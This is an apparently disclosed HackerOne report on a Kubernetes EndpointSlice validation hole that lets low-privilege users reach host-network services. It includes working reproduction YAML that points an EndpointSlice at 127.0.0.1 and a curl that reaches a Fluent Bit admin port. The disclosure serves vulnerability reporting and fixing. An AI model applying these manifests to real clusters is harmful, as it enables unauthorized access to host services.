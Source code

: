 # Holes in EndpointSlice Validation Enable Host Network Hijack

## Report Details
- **Report ID**: 1145044
- **URL**: https://hackerone.com/reports/1145044
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-04-02T00:59:23.695Z
- **Disclosed**: 2021-09-05T23:29:06.790Z

## Reporter
- **Username**: howardjohn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
## Summary:
A user with permission to create Services and EndpointSlices can configure these resources to allow sending traffic to arbitrary ports in the host network.

## Kubernetes Version:
Any version with `EndpointSliceProxying` enabled, default in 1.19+

## Component Version:
1.19+

## Steps To Reproduce:

Apply YAML:
```
apiVersion: v1
kind: Service
metadata:
  labels:
    component: apiserver
  name: hijack
  namespace: attacker
spec:
  ports:
  - name: http
    port: 2020
    protocol: TCP
---
addressType: IPv4
apiVersion: discovery.k8s.io/v1beta1
endpoints:
- addresses:
  - 127.0.0.1
  conditions:
    ready: true
kind: EndpointSlice
metadata:
  labels:
    kubernetes.io/service-name: hijack
  name: hijack
  namespace: attacker
ports:
- name: http
  port: 2020
  protocol: TCP
```

Inside a pod in the cluster, send a curl request to the service:
```
$ curl hijack.attacker:2020/api/v1/uptime
{"uptime_sec":57070,"uptime_hr":"Fluent Bit has been running:  0 day, 15 hours, 51 minutes and 10 seconds"}
```

Here I chose to reach the Fluent Bit admin interface running on port 2020 in the host network; any other services can also be hit by adding the port into the Service and EndpointSlice.

## Supporting Material/References:

This vulnerability does not apply to Endpoints, which would reject this in validation: https://github.com/kubernetes/kubernetes/blob/a651804427dd9a15bb91e1c4fb7a79994e4817a2/pkg/apis/core/validation/validation.go#L5762.

However, EndpointSlice validation is more lenient: https://github.com/kubernetes/kubernetes/blob/a651804427dd9a15bb91e1c4fb7a79994e4817a2/staging/src/k8s.io/apimachinery/pkg/util/validation/validation.go#L356

## Impact

User with permission to create Services and EndpointSlice, a relatively unprivileged role, can access arbitrary services in the host network.

## Attachments
No attachments
